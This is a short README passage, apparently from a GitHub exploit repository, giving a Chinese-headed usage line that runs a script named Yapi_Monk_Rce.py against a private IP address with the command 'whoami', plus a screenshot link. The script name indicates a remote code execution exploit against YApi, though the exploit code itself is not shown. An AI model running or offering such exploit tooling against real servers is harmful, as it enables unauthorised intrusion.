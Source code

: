 ## 用法
python Yapi_Monk_Rce.py 'http://192.168.30.1' 'whoami'


![截图](https://github.com/jammny/Yapi_Monk_Rce/blob/main/res.jpg)
